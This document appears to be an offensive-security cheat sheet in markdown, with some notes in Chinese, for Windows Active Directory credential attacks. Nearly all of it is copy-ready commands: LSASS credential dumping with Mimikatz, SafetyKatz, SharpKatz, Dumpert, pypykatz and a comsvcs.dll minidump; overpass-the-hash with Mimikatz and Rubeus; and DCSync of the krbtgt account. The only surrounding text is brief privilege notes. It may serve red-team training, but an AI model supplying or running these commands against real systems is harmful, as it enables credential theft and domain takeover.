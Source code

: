 #  Extracting Credentials from LSASS

Mimikatz
```
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
```

SafetyKatz
```
SafetyKatz.exe "sekurlsa::ekeys"
```

SharpKatz
```
SharpKatz.exe --Command ekeys
```

Dump credentials using Dumpert (Direct System Calls and API unhooking)
```
rundll32.exe C:\Dumpert\Outflank-Dumpert.dll,Dump
```

pypykatz
```
pypykatz.exe live lsa
```
comsvcs.dll
```
tasklist /FI "IMAGENAME eq lsass.exe"
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump <lsass
process ID> C:\Users\Public\lsass.dmp full
```

linux上操作

1. From a Linux attacking machine using impacket.
2. From a Linux attacking machine using Physmem2profit


# OverPass-The-Hash

需要	administrator权限

Mimikatz
```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:us.techcorp.local /aes256:<aes256key> /run:powershell.exe"'	
```
SafetyKatz
```
SafetyKatz.exe "sekurlsa::pth /user:administrator /domain:us.techcorp.local /aes256:<aes256keys> /run:cmd.exe" "exit"
```

## Over Pass the hash (OPTH) generate tokens from hashes or keys
下面操作不需要administrator权限
```
Rubeus.exe asktgt /user:administrator /rc4:<ntlmhash> /ptt
```
下面操作需要administrator权限
```
Rubeus.exe asktgt /user:administrator /aes256:<aes256keys> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

# DCSync

Mimikatz
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'
```
SafetyKatz
```
SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt" "exit"
```

DA一般有DCSync权限

